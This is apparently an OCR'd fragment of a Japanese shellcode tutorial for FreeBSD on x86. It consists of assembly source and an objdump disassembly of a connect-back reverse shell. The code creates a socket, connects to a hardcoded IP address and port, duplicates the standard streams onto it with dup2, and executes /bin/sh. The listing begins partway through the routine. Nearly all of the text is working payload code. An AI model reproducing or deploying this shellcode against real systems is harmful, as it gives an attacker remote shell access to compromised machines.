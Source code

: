         push       %ecx
        push       %eax
        push       %ecx
        xchg       %edi, %eax
        push       $0x62
        pop        %eax
        int        $0x80
L1:     mov        $0x5A, %al
        push       %edx
        push       %edi
        push       %edx
        int        $0x80
        dec        %edx
        jns        L1
        push       $0x0068732F
        push       $0x6E69622F
        mov        %esp, %ebx
        push       %eax
        push       %esp
        push       %ebx
        push       %ebx
        mov        $0x3B, %al
        int        $0x80
        .string "ADDR"
-----

　アセンブラで書いて、マシン語に変換します。

-----  freebsd terminal
# gcc shellcode.s -o shellcode
# objdump -d shellcode | grep \<main\> -A 42

080483c4 <main>:
 80483c4:        6a 61                        push   $0x61
 80483c6:        58                           pop    %eax
 80483c7:        99                           cltd   
 80483c8:        52                           push   %edx
 80483c9:        42                           inc    %edx
 80483ca:        52                           push   %edx
 80483cb:        42                           inc    %edx
 80483cc:        52                           push   %edx
 80483cd:        68 56 51 2d 15               push   $0x152d5156
 80483d2:        cd 80                        int    $0x80
 80483d4:        68 10 02 1e 61               push   $0x611e0210
 80483d9:        89 e1                        mov    %esp,%ecx
 80483db:        6a 10                        push   $0x10
 80483dd:        51                           push   %ecx
 80483de:        50                           push   %eax
 80483df:        51                           push   %ecx
 80483e0:        97                           xchg   %eax,%edi
 80483e1:        6a 62                        push   $0x62
 80483e3:        58                           pop    %eax
 80483e4:        cd 80                        int    $0x80
